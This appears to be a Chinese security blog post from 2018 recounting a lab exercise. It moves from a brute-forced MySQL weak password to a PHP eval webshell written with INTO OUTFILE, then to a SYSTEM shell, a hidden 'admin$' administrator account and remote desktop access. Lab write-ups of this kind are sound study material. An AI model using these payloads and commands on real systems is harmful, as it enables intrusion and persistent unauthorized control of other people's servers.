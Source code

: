 ```yaml
---
layout:     post
title:      实战之mysql从弱口令到提权
subtitle:   流程思路要清晰
date:       2018-11-06
author:     蓝胖
header-img: img/post-bg-2018-10-19.jpg
catalog: true
tags:
    - mysql
    - 提权

    


---
```


>“回头想想，有时候感到后怕。当自己的认知天花板太低的时候，明明已经错的一塌糊涂，却还在沾沾自喜”



# 弱口令->Shell
 > 朋友在韩国搭建了一套靶场环境让我试试。所以有了如下记录。直接Nmap扫端口，发现开了3306。爆破出数据库弱口令 root/666666

接着看看系统版本 `select @@version_compile_os, @@version_compile_machine;`
[![ioblut.png](https://s1.ax1x.com/2018/11/06/ioblut.png)](https://imgchr.com/i/ioblut)
看数据库版本 `select @@version;`
[![iobu3d.png](https://s1.ax1x.com/2018/11/06/iobu3d.png)](https://imgchr.com/i/iobu3d)
发现是MariaDB,MariaDB百度了下意思就是mysql的进阶产品，未来有可能替代mysql，而且兼容大部分mysql。知道这些就够了，先搞。
继续看下其他路径`SHOW VARIABLES WHERE Variable_Name LIKE "%dir";`
[![iobKgA.png](https://s1.ax1x.com/2018/11/06/iobKgA.png)](https://imgchr.com/i/iobKgA)

现在知道了mysql的服务器以及版本信息，下面要插入一句话。但是要知道插入的路径。直接在访问IP，发现是个网站。有两个思路，一个是注入报错爆路径，一个是查看`PHPinfo`。用`wa00f`测了一下没有waf，那就跑个小字典看看有没有想要的信息。发现有PHPinfo，直接访问，找到网站真实路径`C:/xampp/htdocs`
[![iobZND.png](https://s1.ax1x.com/2018/11/06/iobZND.png)](https://imgchr.com/i/iobZND)
[![iobVAO.png](https://s1.ax1x.com/2018/11/06/iobVAO.png)](https://imgchr.com/i/iobVAO)

有了mysql写入权限+路径，就可以创建表写入一句话，或者直接写入一句话，我选择后者，因为省事，哈哈
`SELECT '<?php eval($_POST[123]) ?>' INTO OUTFILE "C://xampp//htdocs//12345.php";`
[![iobn9H.md.png](https://s1.ax1x.com/2018/11/06/iobn9H.md.png)](https://imgchr.com/i/iobn9H)
写入成功。上C刀
[![iobGE8.md.png](https://s1.ax1x.com/2018/11/06/iobGE8.md.png)](https://imgchr.com/i/iobGE8)



# shell->提权
 > `whoami` 一下是 `nt authoritysystem` 权限，百度了下也就是管理员权限。
[![iob3Hf.png](https://s1.ax1x.com/2018/11/06/iob3Hf.png)](https://imgchr.com/i/iob3Hf)

  Mysql还可以用mof、udf、sqlmap、启动项提权等方式，但先试试最基本提权。创建一个普通用户 `net user admin$ admin999 /add`  添加到管理员 `net localgroup administrators admin$ /add ` 确认在不在管理员组里 ` net localgroup administrators `
[![ioquIU.png](https://s1.ax1x.com/2018/11/06/ioquIU.png)](https://imgchr.com/i/ioquIU)
  看下端口开放信息 `netstat -an `，发现开了3389，不用自己开了，直接远程连接
 [![iobMjI.md.png](https://s1.ax1x.com/2018/11/06/iobMjI.md.png)](https://imgchr.com/i/iobMjI)






